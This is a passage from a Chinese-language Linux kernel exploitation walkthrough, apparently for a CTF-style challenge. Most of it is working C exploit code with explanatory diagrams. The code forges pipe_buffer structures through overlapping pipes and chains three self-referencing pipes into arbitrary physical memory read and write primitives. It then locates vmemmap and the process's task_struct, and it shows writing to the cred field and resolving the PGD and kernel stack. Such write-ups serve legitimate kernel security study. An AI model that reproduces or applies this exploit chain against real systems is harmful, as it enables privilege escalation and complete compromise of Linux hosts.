// 构造主控制pipe_buffer结构
memset(&fake_pipe_buf, 0, PIPE_BUFFER_SIZE);
memcpy(&fake_pipe_buf, &leaked_pipe_buf, PIPE_BUFFER_SIZE);
fake_pipe_buf.page = (struct page *)((uint64_t)(fake_pipe_buf.page) & (~0xff));
write(pipe_fds[overlap_pipe_idx][1], &fake_pipe_buf, PIPE_BUFFER_SIZE);

if(debug_enabled) {
    hex_dump("主控制pipe_buffer配置:", (char *)&fake_pipe_buf, PIPE_BUFFER_SIZE + 0x8);
}
```

**page指针修改原理**：

```c
// 页面对齐操作
fake_pipe_buf.page = (struct page *)((uint64_t)(fake_pipe_buf.page) & (~0xff));

// 数学运算：
// 原始指针: 0xFFFFxxxxyyyyyyZZ (ZZ为低8位)
// 掩码: 0xFFFFFFFFFFFFFF00
// 结果: 0xFFFFxxxxyyyyyy00
```

**二次共享建立流程**：

```mermaid
graph TD
    A[一级重叠管道状态] --> B[复制泄露的数据结构];
    B --> C[修改page指针低8位];
    C --> D[页面对齐操作];
    D --> E[写入重叠管道];
    E --> F[建立二次共享];

    style C fill:#ffcc80,stroke:#f57c00
    style F fill:#c8e6c9,stroke:#388e3c
```

#### 4-6-2. 识别二级重叠对

在修改page指针建立二次共享后，遍历所有管道识别二级重叠对，扩展控制范围：

```c
int build_arbitrary_rw_chain(void) {
    log.info("通过管道链构造物理内存访问管道");

    // 识别二级重叠对用于扩展控制
    for (int i = 0; i < MAX_PIPES; i++) {
        if(i == victim_pipe_idx || i == overlap_pipe_idx) continue;

        memset(pipe_buffer_data, 0, PIPE_BUFFER_SIZE);
        read(pipe_fds[i][0], pipe_buffer_data, PIPE_BUFFER_SIZE);

        if (pipe_buffer_data[0] == 0x72656361526e6942 && pipe_buffer_data[1] != i) {
            second_victim_pipe_idx = pipe_buffer_data[1];
            second_overlap_pipe_idx = i;

            log.success("定位到二级重叠对 - 受影响管道: %d, 控制管道: %d",
                        second_victim_pipe_idx, second_overlap_pipe_idx);
        }
    }

    if (second_overlap_pipe_idx == -1) {
        log.error("未找到二级重叠 - 内存布局对链构建不稳定");
        return -1;
    }
```

**二级重叠识别机制**：

| 条件     | 检测方法                      | 物理意义     | 检测结果     |
| -------- | ----------------------------- | ------------ | ------------ |
| 魔数值   | 读取数据前8字节匹配"BinRacer" | 标记完整性   | 有效管道结构 |
| 索引值   | 读取的索引≠当前管道索引       | 内存重叠状态 | 二级重叠对   |
| 排除条件 | 排除一级重叠对管道            | 避免重复识别 | 新重叠对     |

#### 4-6-3. 释放与布局调整

识别二级重叠对后，释放受影响管道并调整内存布局，为管道链构建准备稳定环境：

```c
    // 释放二级受影响管道
    close(pipe_fds[second_victim_pipe_idx][0]);
    close(pipe_fds[second_victim_pipe_idx][1]);

    // 为稳定链构造重新对齐内存布局
    for (int i = 0; i < MAX_PIPES; i++) {
        if(i == victim_pipe_idx || i == overlap_pipe_idx ||
           i == second_victim_pipe_idx || i == second_overlap_pipe_idx) continue;
        resize_pipe_buffer(i, 0x1000 * 2);
    }
```

**内存状态调整策略**：

1. **释放阶段**：
    - 释放`second_victim_pipe_idx`管道资源
    - 内核释放对应的`pipe_buffer`结构
    - 物理页面回归order-0空闲列表

2. **调整阶段**：
    - 调整剩余管道缓冲区为96
    - 触发`kmalloc-96`分配（80字节）
    - 新分配抢占释放的order-0页面

**布局调整效应**：

```mermaid
graph TD
    A[二级重叠对识别] --> B[释放受影响管道];
    B --> C[kmalloc-192缓存回收];
    C --> D[order-0页面空闲];
    D --> E[重调整剩余管道];
    E --> F[触发kmalloc-96分配];
    F --> G[抢占空闲页面];
    G --> H[建立新布局];

    style B fill:#ffcdd2,stroke:#d32f2f
    style H fill:#c8e6c9,stroke:#388e3c
```

**完成状态**：

- page指针修改完成，建立二次页面共享
- 二级重叠对成功识别
- 受影响管道释放，布局调整完成
- 为管道链构建奠定基础

### 4-7. 构造Pipe Chain

在二级控制链构建完成后，通过配置二级控制结构并识别三个自引用管道，构建三节点闭环拓扑，实现物理内存的稳定访问能力。

#### 4-7-1. 配置二级控制结构

在识别二级重叠对并调整布局后，需要配置二级控制结构，为管道链构建提供控制节点：

```c
    // 初始化二级控制pipe_buffer链组件
    memset(&chain_pipe_buf, 0, PIPE_BUFFER_SIZE);
    memcpy(&chain_pipe_buf, &fake_pipe_buf, PIPE_BUFFER_SIZE);
    chain_pipe_buf.offset = 192 * 2;
    chain_pipe_buf.len = 96;
    memcpy(&read_target_pipe_buf, &chain_pipe_buf, PIPE_BUFFER_SIZE);
    memcpy(&write_target_pipe_buf, &chain_pipe_buf, PIPE_BUFFER_SIZE);

    write(pipe_fds[second_overlap_pipe_idx][1], &chain_pipe_buf, PIPE_BUFFER_SIZE);

    if(debug_enabled) {
        hex_dump("二级控制pipe_buffer状态:", (char *)&chain_pipe_buf, PIPE_BUFFER_SIZE);
    }
```

**二级控制结构特性**：

| 字段     | 取值                       | 技术目的         |
| -------- | -------------------------- | ---------------- |
| `page`   | 继承自`fake_pipe_buf.page` | 保持页面对齐基准 |
| `offset` | 384 (192×2)                | 指向特定内存偏移 |
| `len`    | 96                         | 控制数据长度     |
| 结构继承 | 继承主控制结构             | 保持控制一致性   |

#### 4-7-2. 识别第一个自引用管道

配置二级控制结构后，可以识别第一个自引用管道，作为管道链的节点2：

```c
    // 识别自引用管道索引用于物理访问链构造
    for (int i = 0; i < MAX_PIPES; i++) {
        if(i == victim_pipe_idx || i == overlap_pipe_idx ||
           i == second_victim_pipe_idx || i == second_overlap_pipe_idx) continue;

        memset(pipe_buffer_data, 0, PIPE_BUFFER_SIZE);
        read(pipe_fds[i][0], pipe_buffer_data, PIPE_BUFFER_SIZE);

        if (pipe_buffer_data[0] == (size_t)fake_pipe_buf.page) {
            chain_pipe_2_idx = i;
            if(debug_enabled) {
                hex_dump("自引用管道#2状态:", (char *)pipe_buffer_data, PIPE_BUFFER_SIZE + 0x8);
            }
            log.success("为链位置#2选择自引用管道: %d", chain_pipe_2_idx);
        }
    }

    if (chain_pipe_2_idx == -1) return -1;
```

**自引用管道识别标准**：

- 排除已识别的重叠管道
- 管道`page`指针与主控制结构对齐后的`page`指针匹配
- 表明该管道指向相同的物理页面

#### 4-7-3. 配置二级管道链连接

通过二级控制管道配置链连接，建立管道间的指向关系：

```c
    // 配置二级管道链连接
    memset(pipe_buffer_data, 0, 96);
    write(pipe_fds[second_overlap_pipe_idx][1], pipe_buffer_data, 96 - PIPE_BUFFER_SIZE);

    chain_pipe_buf.offset = 192 * 2;
    chain_pipe_buf.len = 96;
    write(pipe_fds[second_overlap_pipe_idx][1], &chain_pipe_buf, PIPE_BUFFER_SIZE);
```

**链连接配置**：

1. **对齐填充**：写入96字节填充数据，维持内存布局
2. **配置更新**：写入链配置，设置`offset=384`，`len=96`
3. **状态同步**：通过二级重叠管道同步配置到目标管道

#### 4-7-4. 识别第二个自引用管道

配置二级控制结构后，可以识别第二个自引用管道，作为管道链的节点3：

```c
    // 识别第二个控制管道用于链扩展
    for (int i = 0; i < MAX_PIPES; i++) {
        if(i == victim_pipe_idx || i == overlap_pipe_idx ||
           i == second_victim_pipe_idx || i == second_overlap_pipe_idx ||
           i == chain_pipe_2_idx) continue;

        memset(pipe_buffer_data, 0, PIPE_BUFFER_SIZE);
        read(pipe_fds[i][0], pipe_buffer_data, PIPE_BUFFER_SIZE);

        if (pipe_buffer_data[0] == (size_t)fake_pipe_buf.page) {
            chain_pipe_3_idx = i;
            if(debug_enabled) {
                hex_dump("自引用管道#3状态:", (char *)pipe_buffer_data, PIPE_BUFFER_SIZE + 0x8);
            }
            log.success("为链位置#3选择自引用管道: %d", chain_pipe_3_idx);
        }
    }

    if (chain_pipe_3_idx == -1) return -1;
```

#### 4-7-5. 配置最终管道链连接

继续通过二级控制管道配置链连接，完善管道链结构：

```c
    // 配置最终管道链连接
    memset(pipe_buffer_data, 0, 96);
    write(pipe_fds[second_overlap_pipe_idx][1], pipe_buffer_data, 96 - PIPE_BUFFER_SIZE);

    chain_pipe_buf.offset = 192 * 2;
    chain_pipe_buf.len = 96;
    write(pipe_fds[second_overlap_pipe_idx][1], &chain_pipe_buf, PIPE_BUFFER_SIZE);
```

#### 4-7-6. 识别第三个自引用管道

配置二级控制结构后，可以识别第三个自引用管道，作为管道链的节点4：

```c
    // 识别第三个控制管道完成链
    for (int i = 0; i < MAX_PIPES; i++) {
        if(i == victim_pipe_idx || i == overlap_pipe_idx ||
           i == second_victim_pipe_idx || i == second_overlap_pipe_idx ||
           i == chain_pipe_2_idx || i == chain_pipe_3_idx) continue;

        memset(pipe_buffer_data, 0, PIPE_BUFFER_SIZE);
        read(pipe_fds[i][0], pipe_buffer_data, PIPE_BUFFER_SIZE);

        if (pipe_buffer_data[0] == (size_t)fake_pipe_buf.page) {
            chain_pipe_4_idx = i;
            if(debug_enabled) {
                hex_dump("自引用管道#4状态:", (char *)pipe_buffer_data, PIPE_BUFFER_SIZE + 0x8);
            }
            log.success("为链位置#4选择自引用管道: %d", chain_pipe_4_idx);
        }
    }

    if (chain_pipe_4_idx == -1) return -1;
```

#### 4-7-7. 配置管道链闭环拓扑

在识别了三个自引用管道（`chain_pipe_2_idx`、`chain_pipe_3_idx`、`chain_pipe_4_idx`）之后，需要配置它们之间的指向关系，形成完整的三节点闭环拓扑：

```c
// 配置互连的pipe_buffer链以启用稳定的物理内存访问
// 将多个自引用管道链接起来，实现内存访问的重定向
void setup_arbitrary_access_chain(void) {
    // 配置chain_pipe_3指向控制区域
    chain_pipe_buf.offset = 192 * 3;
    chain_pipe_buf.len = 0;
    write(pipe_fds[chain_pipe_2_idx][1], &chain_pipe_buf, PIPE_BUFFER_SIZE);

    // 配置chain_pipe_4指向控制区域
    chain_pipe_buf.offset = 192 * 2;
    chain_pipe_buf.len = 0;
    write(pipe_fds[chain_pipe_3_idx][1], &chain_pipe_buf, PIPE_BUFFER_SIZE);

    // 配置chain_pipe_2指向控制区域
    chain_pipe_buf.offset = 0;
    chain_pipe_buf.len = 0;
    write(pipe_fds[chain_pipe_4_idx][1], &chain_pipe_buf, PIPE_BUFFER_SIZE);

    // 清除中间缓冲区空间以对齐后续写入
    memset(pipe_buffer_data, 0, 96);
    write(pipe_fds[chain_pipe_4_idx][1], pipe_buffer_data, 96 - PIPE_BUFFER_SIZE);

    // 配置chain_pipe_3指向控制区域
    chain_pipe_buf.offset = 192 * 3;
    chain_pipe_buf.len = 0;
    write(pipe_fds[chain_pipe_4_idx][1], &chain_pipe_buf, PIPE_BUFFER_SIZE);
}
```

**闭环拓扑配置详解**：

1. **节点2配置**：`chain_pipe_2_idx`的`offset`设为`192*3=576`，指向节点3的控制区域
2. **节点3配置**：`chain_pipe_3_idx`的`offset`设为`192*2=384`，指向节点4的控制区域
3. **节点4配置**：`chain_pipe_4_idx`的`offset`设为`0`，指向节点2的控制区域
4. **对齐填充**：写入96字节填充数据，维持内存布局对齐
5. **闭环完成**：再次配置节点4，确保拓扑结构稳定

**配置后拓扑关系**：

```
节点2.offset = 576   -> 指向节点3的控制区域
节点3.offset = 384   -> 指向节点4的控制区域
节点4.offset = 0     -> 指向节点2的控制区域
```

#### 4-7-8. 三节点闭环拓扑结构

**拓扑结构图示**：

```mermaid
graph TB
    subgraph "三节点闭环拓扑"
        P2[节点2<br/>chain_pipe_2_idx] -->|offset=576| P3[节点3];
        P3 -->|offset=384| P4[节点4];
        P4 -->|offset=0| P2;

        P2 -->|page指针可控| MEM[物理内存];
    end

    style P2 fill:#bbdefb,stroke:#1976d2,stroke-width:2px
    style P3 fill:#c8e6c9,stroke:#388e3c,stroke-width:2px
    style P4 fill:#f3e5f5,stroke:#7b1fa2,stroke-width:2px
```

**节点角色分配**：

| 节点  | 管道索引           | 功能角色     | 控制关系                 |
| ----- | ------------------ | ------------ | ------------------------ |
| 节点2 | `chain_pipe_2_idx` | 数据载体节点 | 接收重定向，执行内存访问 |
| 节点3 | `chain_pipe_3_idx` | 配置传递节点 | 配置节点4状态            |
| 节点4 | `chain_pipe_4_idx` | 闭环枢纽节点 | 重定向节点2，复位节点3   |

**拓扑数学关系**：

设三个节点的`pipe_buffer`结构在物理页内的偏移分别为：

- $$O_2$$ = 节点2偏移
- $$O_3$$ = 节点3偏移
- $$O_4$$ = 节点4偏移

配置关系满足：

$$
\begin{aligned}
\text{节点2.offset} &= O_3 \\
\text{节点3.offset} &= O_4 \\
\text{节点4.offset} &= O_2 \\
\end{aligned}
$$

**闭环特性**：

$$
f_2 \rightarrow f_3 \rightarrow f_4 \rightarrow f_2
$$

其中$$f_x$$表示节点x的`pipe_buffer`结构。

#### 4-7-9. 管道链构建流程

**构建流程总结**：

```mermaid
sequenceDiagram
    participant A as 二级控制结构
    participant B as 识别节点2
    participant C as 配置链连接
    participant D as 识别节点3
    participant E as 配置链连接
    participant F as 识别节点4
    participant G as 配置闭环拓扑

    A->>C: 写入chain_pipe_buf配置
    C->>B: 遍历管道识别自引用
    B->>C: 找到chain_pipe_2_idx
    C->>E: 写入chain_pipe_buf配置
    E->>D: 遍历管道识别自引用
    D->>E: 找到chain_pipe_3_idx
    E->>F: 写入chain_pipe_buf配置
    F->>B: 遍历管道识别自引用
    B->>F: 找到chain_pipe_4_idx
    F->>G: 配置节点2指向节点3
    F->>G: 配置节点3指向节点4
    F->>G: 配置节点4指向节点2
    F->>G: 对齐填充并完成闭环
    G->>D: 三节点闭环拓扑完成
```

**管道链技术特性**：

| 特性   | 实现机制           | 技术优势       |
| ------ | ------------------ | -------------- |
| 自指涉 | 节点相互指向       | 实现透明重定向 |
| 闭环   | 形成循环引用       | 确保拓扑稳定性 |
| 可配置 | 通过节点3/4配置    | 支持动态重定向 |
| 原子性 | 配置-执行-恢复序列 | 确保操作完整性 |
| 可扩展 | 基于标准管道接口   | 便于功能扩展   |

**完成状态**：

- 二级控制结构配置完成
- 三个自引用管道成功识别
- 三节点闭环拓扑配置完成
- 管道链结构稳定就绪
- 物理内存访问能力建立
- 支持精确内存操作

通过二级控制链和管道链的协同工作，实现了对物理内存的精确控制和稳定访问能力。整个过程体现了分层构建、逐步控制的技术设计理念，为复杂的内存操作建立了可靠的技术基础。

### 4-8. 构建物理内存读写原语

在成功构建三节点闭环拓扑后，通过配置和重定向管道链的指向关系，实现物理内存的精确读写能力。本章节详细阐述如何利用已建立的管道链实现任意物理地址的读写操作。

#### 4-8-1. 物理内存读取原语实现

通过管道链配置序列，实现从任意物理地址读取数据的能力：

```c
// 通过配置的管道链读取任意物理内存
// 通过操作管道缓冲区将读取操作重定向到目标物理地址
void arbitrary_phys_read(uint64_t target_page, uint32_t page_offset, void *output_buffer, uint64_t read_length) {
    debug_enabled = 0;

    // 阶段1：复位第四管道到已知对齐状态
    read_target_pipe_buf.offset = 192 * 2;
    read_target_pipe_buf.len = 0;
    write(pipe_fds[chain_pipe_3_idx][1], &read_target_pipe_buf, PIPE_BUFFER_SIZE);

    // 阶段2：重定向第二管道到目标物理地址
    read_target_pipe_buf.page = (struct page*)target_page;
    read_target_pipe_buf.offset = page_offset;
    read_target_pipe_buf.len = 0x1ff0;
    write(pipe_fds[chain_pipe_4_idx][1], &read_target_pipe_buf, PIPE_BUFFER_SIZE);

    // 阶段3：刷新对齐填充以维持管道缓冲区布局
    memset(pipe_buffer_data, 0, 96);
    write(pipe_fds[chain_pipe_4_idx][1], pipe_buffer_data, 96 - PIPE_BUFFER_SIZE);

    // 阶段4：恢复第三管道到安全状态，同时保持重定向
    read_target_pipe_buf.page = fake_pipe_buf.page;
    read_target_pipe_buf.offset = 192 * 3;
    read_target_pipe_buf.len = 0;
    write(pipe_fds[chain_pipe_4_idx][1], &read_target_pipe_buf, PIPE_BUFFER_SIZE);

    // 阶段5：通过第二管道读取操作提取数据
    read(pipe_fds[chain_pipe_2_idx][0], output_buffer, read_length);
}
```

**读取操作状态转移序列**：

```mermaid
stateDiagram-v2
    [*] --> 初始闭环状态

    初始闭环状态 --> 状态1_复位节点4: 节点3写入offset=384
    状态1_复位节点4 --> 状态2_重定向节点2: 节点4写入page/offset
    状态2_重定向节点2 --> 状态3_对齐填充: 写入填充数据
    状态3_对齐填充 --> 状态4_恢复节点3: 节点4写入offset=576
    状态4_恢复节点3 --> 状态5_执行读取: 节点2读取操作
    状态5_执行读取 --> 初始闭环状态: 操作完成

    note right of 初始闭环状态
    稳定闭环拓扑状态：
    节点2 → 节点3
    节点3 → 节点4
    节点4 → 节点2
    end note

    note right of 状态2_重定向节点2
    关键重定向操作：
    节点2.page = target_page
    节点2.offset = page_offset
    节点2指向目标物理地址
    end note

    note right of 状态5_执行读取
    数据访问路径：
    用户请求 → 节点2读取 →
    重定向到目标物理地址 →
    数据返回用户空间
    end note
```

#### 4-8-2. 物理内存写入原语实现

与读取操作对称的物理内存写入能力实现：

```c
// 通过配置的管道链写入任意物理内存
// 通过操作管道缓冲区将写入操作重定向到目标物理地址
void arbitrary_phys_write(uint64_t target_page, uint32_t page_offset, void *input_data, uint64_t write_length) {
    debug_enabled = 0;

    // 阶段1：复位第四管道到已知对齐状态
    read_target_pipe_buf.offset = 192 * 2;
    read_target_pipe_buf.len = 0;
    write(pipe_fds[chain_pipe_3_idx][1], &read_target_pipe_buf, PIPE_BUFFER_SIZE);

    // 阶段2：重定向第二管道到目标物理地址
    read_target_pipe_buf.page = (struct page*)target_page;
    read_target_pipe_buf.offset = page_offset;
    read_target_pipe_buf.len = 0;
    write(pipe_fds[chain_pipe_4_idx][1], &read_target_pipe_buf, PIPE_BUFFER_SIZE);

    // 阶段3：刷新对齐填充以维持管道缓冲区布局
    memset(pipe_buffer_data, 0, 96);
    write(pipe_fds[chain_pipe_4_idx][1], pipe_buffer_data, 96 - PIPE_BUFFER_SIZE);

    // 阶段4：恢复第三管道到安全状态，同时保持重定向
    read_target_pipe_buf.page = fake_pipe_buf.page;
    read_target_pipe_buf.offset = 192 * 3;
    read_target_pipe_buf.len = 0;
    write(pipe_fds[chain_pipe_4_idx][1], &read_target_pipe_buf, PIPE_BUFFER_SIZE);

    // 阶段5：通过第二管道写入操作注入数据
    write(pipe_fds[chain_pipe_2_idx][1], input_data, write_length);
}
```

#### 4-8-3. 读写原语技术特性对比

| 特性维度     | 读取操作            | 写入操作            | 共同特性         |
| ------------ | ------------------- | ------------------- | ---------------- |
| **数据流向** | 物理内存 → 用户空间 | 用户空间 → 物理内存 | 双向透明传输     |
| **配置序列** | 5阶段配置           | 5阶段配置           | 相同配置流程     |
| **执行操作** | read系统调用        | write系统调用       | 标准管道I/O封装  |
| **错误处理** | 读取失败返回错误    | 写入失败返回错误    | 统一错误处理机制 |
| **性能特性** | 数据复制开销        | 数据复制开销        | 相似性能特征     |

**配置阶段详解**：

| 阶段  | 操作        | 技术目的         | 节点角色          |
| ----- | ----------- | ---------------- | ----------------- |
| 阶段1 | 复位节点4   | 建立已知对齐状态 | 节点3配置节点4    |
| 阶段2 | 重定向节点2 | 指向目标物理地址 | 节点4配置节点2    |
| 阶段3 | 对齐填充    | 维持缓冲区布局   | 节点4写入填充数据 |
| 阶段4 | 恢复节点3   | 保持拓扑稳定性   | 节点4配置节点3    |
| 阶段5 | 执行操作    | 实际读写数据     | 节点2执行I/O操作  |

#### 4-8-4. 物理地址转换与计算

**物理地址参数解释**：

1. **`target_page`参数**：
    - 类型：`uint64_t`
    - 含义：目标物理页的页面描述符地址
    - 计算：通过`vmemmap`基址加上物理页号计算得到
    - 示例：`vmemmap_base + (pfn * 0x40)`

2. **`page_offset`参数**：
    - 类型：`uint32_t`
    - 含义：页面内的字节偏移量
    - 范围：0-4095（4KB页面内）
    - 用途：精确定位页面内的特定位置

3. **地址计算关系**：
    ```c
    // 从vmemmap地址计算物理地址
    uint64_t physical_address = ((target_page - vmemmap_base) / 0x40) * 4096 + page_offset;
    ```

#### 4-8-5. 内存访问原语技术特性

**原子性保障机制**：

```mermaid
graph TD
    A[开始配置序列] --> B[阶段1: 复位节点4];
    B --> C[阶段2: 重定向节点2];
    C --> D[阶段3: 对齐填充];
    D --> E[阶段4: 恢复节点3];
    E --> F[阶段5: 执行操作];
    F --> G[操作完成];

    B --> H[验证节点4状态];
    C --> I[验证节点2指向];
    D --> J[验证缓冲区布局];
    E --> K[验证节点3状态];
    F --> L[验证操作结果];

    H --> M{状态正确?};
    I --> N{指向正确?};
    J --> O{布局正确?};
    K --> P{状态正确?};
    L --> Q{结果正确?};

    M -->|是| C;
    M -->|否| B;
    N -->|是| D;
    N -->|否| C;
    O -->|是| E;
    O -->|否| D;
    P -->|是| F;
    P -->|否| E;
    Q -->|是| G;
    Q -->|否| R[操作失败];

    style B fill:#e8f4fd,stroke:#1976d2
    style C fill:#f3e5f5,stroke:#7b1fa2
    style F fill:#c8e6c9,stroke:#388e3c
    style R fill:#ffcdd2,stroke:#d32f2f
```

**错误处理机制**：

| 错误类型 | 检测方法      | 处理策略     | 恢复机制           |
| -------- | ------------- | ------------ | ------------------ |
| 配置失败 | 返回值验证    | 重试配置序列 | 回滚到最近稳定状态 |
| 读取失败 | read返回错误  | 清理缓冲区   | 重新建立管道链     |
| 写入失败 | write返回错误 | 验证写入数据 | 重新执行写入操作   |
| 超时错误 | 信号处理机制  | 中断当前操作 | 清理资源并重试     |

#### 4-8-6. 完成状态与后续应用

**当前完成状态**：

- 物理内存读取原语构建完成
- 物理内存写入原语构建完成
- 稳定的管道链访问机制建立
- 原子性和可靠性保障机制就绪

**后续应用场景**：

1. **系统内存勘探**：

    ```c
    // 扫描物理内存查找关键数据结构
    for (uint64_t page = vmemmap_base; page < vmemmap_base + 0x1000000000; page += 0x40) {
        arbitrary_phys_read(page, 0, buffer, 4096);
        // 分析页面内容
    }
    ```

2. **数据结构修改**：

    ```c
    // 修改特定内核数据结构
    arbitrary_phys_write(target_task_struct, offsetof(struct task_struct, cred), new_cred, 8);
    ```

3. **内存状态分析**：
    ```c
    // 分析系统内存使用状态
    uint64_t free_pages = 0;
    arbitrary_phys_read(buddy_info_addr, 0, &free_pages, 8);
    ```

**技术优势总结**：

| 优势     | 实现机制         | 效果评估         |
| -------- | ---------------- | ---------------- |
| 精确控制 | 物理地址直接访问 | 内存操作精度高   |
| 双向能力 | 读写对称原语     | 完整内存控制能力 |
| 稳定访问 | 管道链封装       | 操作稳定性好     |
| 可扩展性 | 模块化设计       | 便于功能扩展     |

通过物理内存读写原语的构建，实现了对系统物理内存的精细控制和稳定访问能力。这两个原语为后续的系统勘探、数据结构分析和内存操作提供了核心技术支持，是整个技术实现的关键组成部分。

### 4-9. 系统内存勘探阶段

#### 4-9-1. vmemmap区域定位

通过梯度扫描定位内核内存映射区域，建立完整的物理内存视图：

```c
void find_vmemmap_base(void){
    // 初始基准计算
    vmemmap_base = (size_t)fake_pipe_buf.page & 0xfffffffff0000000;

    for (size_t round = 0; ;round++) {
        size_t candidate_value[4] = {0};

        // 扫描候选区域
        arbitrary_phys_read((vmemmap_base + 0x2740), 0, candidate_value, 0x10);

        // 特征验证：函数低12位匹配
        if (candidate_value[0] > kernel_base &&
            ((candidate_value[0] & 0xfff) == (SECONDARY_STARTUP_64 & 0xfff))) {
            break;
        }

        // 梯度下降搜索
        vmemmap_base -= 0x10000000;
    }
}
```

**内存扫描策略可视化**：

```mermaid
graph TD
    A[开始扫描] --> B[计算初始基址];
    B --> C[vmemmap_base = page指针高56位];

    C --> D[扫描循环开始];
    D --> E[读取候选地址];
    E --> F[candidate = 物理内存读取];

    F --> G{验证条件};
    G -->|条件1: candidate > kernel_base| H[继续验证];
    G -->|条件1不满足| I[继续扫描];

    H --> J{条件2: 低12位匹配};
    J -->|匹配成功| K[定位成功];
    J -->|匹配失败| L[继续扫描];

    I --> M[vmemmap_base -= 256MB];
    L --> M;

    M --> D;
    K --> N[返回vmemmap_base];

    subgraph "验证条件详解"
        O[条件1] --> P[地址大于内核基址];
        Q[条件2] --> R[低12位等于SECONDARY_STARTUP_64];
        P --> S[确保内核地址空间];
        R --> T[识别特定函数特征];
    end

    style K fill:#c8e6c9,stroke:#388e3c,stroke-width:2px
```

**扫描算法复杂度分析**：

设：

- 搜索空间大小：$$S_{search}$$ = 可能的vmemmap区域范围
- 步进大小：$$S_{step}$$ = 0x10000000 (256MB)
- 每次验证开销：$$C_{verify}$$ = 物理内存读取时间
- 扫描次数：$$N_{scan}$$ = $$\frac{S_{search}}{S_{step}}$$

**平均情况**：$$N_{scan\_avg} = \frac{S_{search}}{2 \times S_{step}}$$

**最坏情况**：$$N_{scan\_worst} = \frac{S_{search}}{S_{step}}$$

**搜索效率优化**：

- 起始点优化：从已知指针推导，减少搜索范围
- 步长选择：256MB平衡精度与效率
- 提前终止：特征匹配即停止搜索
- 并行验证：可同时验证多个特征

#### 4-9-2. 关键数据结构扫描

通过多字段联合验证，定位内存中的任务结构：

```c
void scan_for_task_structs(void) {
    // 设置唯一进程标识
    prctl(PR_SET_NAME, "pwn4kernel");

    for (size_t round = 0; ; round++) {
        // 读取物理页内容
        arbitrary_phys_read((vmemmap_base + round * 0x40), 0,
                           page_content_buffer, 0xf00);

        // 搜索进程标识字符串
        size_t *current_comm_ptr = (size_t*)memmem(page_content_buffer, 0xf00,
                                                   "pwn4kernel", 10);

        // 多字段联合验证
        if (current_comm_ptr &&
            (current_comm_ptr[-2] > 0xffff888000000000) &&  // cred指针验证
            (current_comm_ptr[-3] > 0xffff888000000000) &&  // real_cred验证
            (current_comm_ptr[-57] > 0xffff888000000000) && // real_parent验证
            (current_comm_ptr[-56] > 0xffff888000000000)) { // parent验证

            // 计算任务结构地址
            current_task_addr = current_comm_ptr[-50] - 0x9e0;
            current_task_page_addr = (vmemmap_base + round * 0x40);
            break;
        }
    }
}
```

**任务结构验证矩阵**：

```mermaid
mindmap
  root((task_struct验证体系))
    标识字符串
      内容: "pwn4kernel"
      位置: "comm字段"
      偏移: "task_struct+0xb70"
    凭证指针
      cred字段
        偏移: "task_struct+0xb60"
        验证: "地址>内核基址"
      real_cred字段
        偏移: "task_struct+0xb58"
        验证: "地址>内核基址"
    进程关系
      parent字段
        偏移: "task_struct+0x9b0"
        验证: "地址>内核基址"
      real_parent字段
        偏移: "task_struct+0x9a8"
        验证: "地址>内核基址"
    计算基准
      ptraced字段
        偏移: "task_struct+0x9e0"
        用途: "反推基址"
      基址计算
        "current_task_addr = comm_ptr - 50*8 - 0x9e0"
```

**内存扫描效率分析**：

**扫描策略参数**：

- 页大小：4KB
- 每次读取：0xf00字节（避免跨页）
- 结构体大小：约2-4KB
- 扫描步长：0x40字节（struct page大小）

**命中概率模型**：
设系统中共有$$N_{tasks}$$个任务结构，物理内存总大小为$$M_{total}$$，则单次扫描命中概率：

$$
P_{hit} = \frac{N_{tasks} \times S_{task}}{M_{total}}
$$

其中$$S_{task}$$为任务结构平均大小。

**优化策略**：

1. 特征过滤：多字段联合验证减少误报
2. 增量扫描：记住已扫描区域避免重复
3. 启发式停止：找到目标即停止扫描
4. 并行扫描：可同时扫描多个内存区域

### 4-10. 提取PGD与内核栈地址

#### 4-10-1. 概述

`pgd_vaddr_resolve`函数是内核利用的关键环节，负责从当前进程的`task_struct`中提取以下关键内存管理结构：

1. **mm_struct地址**：进程的内存描述符，包含虚拟内存布局信息
2. **内核栈地址**：进程在内核模式下的栈空间地址
3. **PGD地址**：页全局目录地址，页表翻译的根节点

#### 4-10-2. 关键内核结构体介绍

##### task_struct结构体

`task_struct`是Linux内核中描述进程的核心数据结构，在内核6.x版本中，与内存管理相关的关键字段如下：

```c
// task_struct 部分关键字段布局（基于内核6.x）
struct task_struct {
    // 进程状态和调度信息
    unsigned int                __state;    // 进程状态
    void                        *stack;     // 偏移0x20，内核栈指针

    // 进程关系
    struct task_struct __rcu   *parent;    // 偏移0x9b0，父进程指针
    struct task_struct __rcu   *real_parent; // 偏移0x9a8，真实父进程指针
    struct list_head           children;   // 子进程链表
    struct list_head           sibling;    // 兄弟进程链表

    // 内存管理
    struct mm_struct           *mm;        // 偏移0x920，内存描述符
    struct mm_struct           *active_mm; // 活动内存描述符

    // 进程凭证
    const struct cred __rcu    *cred;      // 偏移0xb60，进程凭证
    const struct cred __rcu    *real_cred; // 偏移0xb58，原始进程凭证

    // 进程标识
    pid_t                      pid;        // 进程ID
    pid_t                      tgid;       // 线程组ID
    char                       comm[16];   // 偏移0xb70，可执行文件名

    // 信号处理
    struct signal_struct       *signal;    // 信号处理结构
    struct sighand_struct __rcu *sighand;  // 信号处理函数

    // 文件系统
    struct files_struct        *files;     // 打开文件表

    // 命名空间
    struct nsproxy             *nsproxy;   // 命名空间代理
};
```

**关键字段详解**：

| 字段          | 偏移  | 大小   | 描述                                        |
| ------------- | ----- | ------ | ------------------------------------------- |
| `stack`       | 0x20  | 8字节  | 指向进程内核栈的指针，内核态执行时使用      |
| `mm`          | 0x920 | 8字节  | 指向`mm_struct`的指针，管理进程虚拟地址空间 |
| `active_mm`   | 0x928 | 8字节  | 活动内存描述符，用于内核线程                |
| `cred`        | 0xb60 | 8字节  | 进程凭证指针，包含UID、GID等权限信息        |
| `real_cred`   | 0xb58 | 8字节  | 原始进程凭证指针，用于权限恢复              |
| `parent`      | 0x9b0 | 8字节  | 父进程指针，用于进程树管理                  |
| `real_parent` | 0x9a8 | 8字节  | 真实父进程指针，跟踪进程创建关系            |
| `comm`        | 0xb70 | 16字节 | 可执行文件名，用于进程标识                  |

##### mm_struct结构体

`mm_struct`是Linux内核中描述进程虚拟地址空间的数据结构，管理进程的所有内存区域：

```c
// mm_struct 关键字段布局（内核6.x）
struct mm_struct {
    // 虚拟内存区域管理
    struct vm_area_struct *mmap;           // 偏移0x00，虚拟内存区域链表
    struct rb_root mm_rb;                  // 偏移0x08，虚拟内存区域红黑树
    unsigned long mmap_base;               // 偏移0x28，内存映射基址
